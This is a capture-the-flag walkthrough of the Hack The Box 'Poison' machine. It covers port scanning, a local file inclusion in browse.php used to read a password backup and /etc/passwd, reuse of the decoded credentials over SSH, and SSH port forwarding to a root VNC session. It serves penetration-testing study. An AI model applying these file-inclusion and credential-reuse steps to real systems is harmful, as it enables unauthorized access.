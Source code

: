 # Poison

**Machine ip:** 10.10.10.84

## Enumeration
First thing first, start port scan:
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.84 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.84`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dc6230c3-bc5c-468e-821e-514f8e0828fd)

+ The result shows that 2 TCP ports are open:
```
Port 22: OpenSSH 7.2
Port 80: Apache httpd 2.4.29
```

+ Always start off with enumerating web server first.
+ Navigate to `http://10.10.10.84/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1c32c4dc-e26f-4728-ba3e-1518b918c928)

+ When entering **listfiles.php** into **Scriptname** textbox, **pwdbackup.txt** looks interesting.
+ `http://10.10.10.84/browse.php?file=listfiles.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bb8237de-e6cc-41e0-8bef-d003d7e1ae08)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a643911b-431e-4fb0-aea8-fcce9e4e28aa)

+ Enter **pwdbackup.txt** into the textbox, and you'll see base64 encoding.
+ `http://10.10.10.84/browse.php?file=pwdbackup.txt`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/755d1b04-96a4-44ce-936f-87f6ff1d3753)

+ This means that the application is vulnerable to local file inclusion (LFI).

+ And also check whether it is vulnerable to RFI.
+ Navigate to `http://10.10.10.84/browse.php?file=phpinfo.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e35caf5f-568a-40da-9480-be78f16123f4)

+ There is no direct RFI as **allow_url_include** is off. Setting allow_url_include to off in your configuration means that your PHP code on your server will not be able to include remote files.

## Gaining Access
+ Let's crack the base64 encoding of **pwdbackup.txt**.
+ The encoded form has been base64 encoded 13 times.

+ **Firstly**, crack in bash script [here](https://github.com/h4md153v63n/Bash_Scripts/tree/main/base64-multiple-decoder).

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a60378d4-e4e3-4d17-bd7f-385c8af1a0d9)

+ **Secondly**, try [python script](https://github.com/h4md153v63n/Python_Security_Codes/tree/master/base64-multiple-decoder).

+ **Third Alternative**, try this online tool: https://base64-multiple-decode.netlify.app

![image](https://github.com/h4md153v63n/Bash_Scripts/assets/5091265/27a222f4-dc74-4795-ada0-86bda6fae3b6)

+ The final resulting string is `Charix!2#4%6&8(0`, which seems like a possible password. The username is `Charix` and the password is `Charix!2#4%6&8(0`.
+ Get the users: `http://10.10.10.84/browse.php?file=/etc/passwd`
+ Discovered users: **root**, **toor** and **charix**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/00e56373-ad34-4087-a00e-7c9efcbf5fae)

+ The username:password should be `charix`:`Charix!2#4%6&8(0`
+ It belongs to Charix. Login ssh into charix account using the discovered credentials.
+ `ssh charix@10.10.10.84`
+ Get the user shell and user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bd4b9cf9-8dee-4b01-b130-9f79a2776d93)

+ **Alternatively**, try log posining method. But it didn't work for me.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cd771766-18e8-4abb-b95f-0524b99982cf)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1bc6d871-1708-4a64-9776-58a0f7f56aa6)


## Privilege Escalation
+ There is a **secret.zip** file on charix’s home directory.
+ Unable to unzip it on the target.
+ Transfer **secret.zip** to your kali attack vm using scp.
+ `scp -P 22 charix@10.10.10.84:/home/charix/secret.zip .` with previous password `Charix!2#4%6&8(0`
+ unzip with the same password `Charix!2#4%6&8(0`: `unzip secret.zip`
+ There's no meaningful thing!

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5ec32bc7-b10c-47d6-82ee-cab8ceaf8898)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a4245b7b-e57c-496c-bf6b-08378b235a83)

+ Lists ports: `netstat -an`
+ [5801](https://www.speedguide.net/port.php?port=5801) and [5901](https://www.speedguide.net/port.php?port=5901) are VNC ports for remote desktop access.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fb6bd861-6308-44b7-b9f7-787ccd94b1d9)

+ List process of vnc: `ps -auwwx | grep vnc`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/87501dde-45a3-4f89-a68a-8618111014a6)

+ Since VNC is a graphical user interface software, we can’t access it through our target machine.
+ We need port forwarding.
+ Run on your kali attack machine with previous password `Charix!2#4%6&8(0`: `ssh -L 7777:127.0.0.1:5901 charix@10.10.10.84`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b07e577-d046-4075-9d07-93c93ddf8bff)

+ Verify that the command is working:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/473a6f5a-8495-474c-b2d1-dcb9984a49cb)

+ Connect to VNC with previous transferred and decompressed **secret** file on the attack machine: `vncviewer 127.0.0.1:7777 -passwd secret`
+ Get the VNC connection with root privileges, and view the root.txt file.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/556d55dc-b294-4080-9030-42426a5bb802)

+ **Alternatively**, crack secret file using the script [1](https://github.com/jeroennijhof/vncpwd)  [2](https://github.com/trinitronx/vncpasswd.py).
+ Then login using the decrypted password: `vncviewer 127.0.0.1:7777`


# References & Alternatives
+ https://vvmlist.github.io/#poison
+ https://medium.com/@Inching-Towards-Intelligence/htb-poison-35-100-3ac2da3ff622
+ https://www.hackingarticles.in/hack-the-box-poison-walkthrough/
+ https://www.absolomb.com/2018-09-08-HackTheBox-Poison/
+ https://0xdf.gitlab.io/2018/09/08/htb-poison.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/poison-writeup-w-o-metasploit#id-46e8
+ https://benheater.com/hackthebox-poison/
+ https://ethicalhacs.com/poison-hackthebox-walkthrough/
+ https://sanaullahamankorai.medium.com/hackthebox-poison-walkthrough-f34509cff535
+ https://manuelvazquez-contact.gitbook.io/oscp-prep/hack-the-box/poison
+ https://systemweakness.com/htb-poison-writeup-w-o-metasploit-5d3b27e25a7e
+ https://github.com/Bengman/CTF-writeups/blob/master/Hackthebox/poison.md

# More
+ **vnc pentesting:** https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc
  + https://github.com/jeroennijhof/vncpwd
  + https://github.com/trinitronx/vncpasswd.py
+ https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
  + https://www.insomniasec.com/downloads/publications/phpinfolfi.py
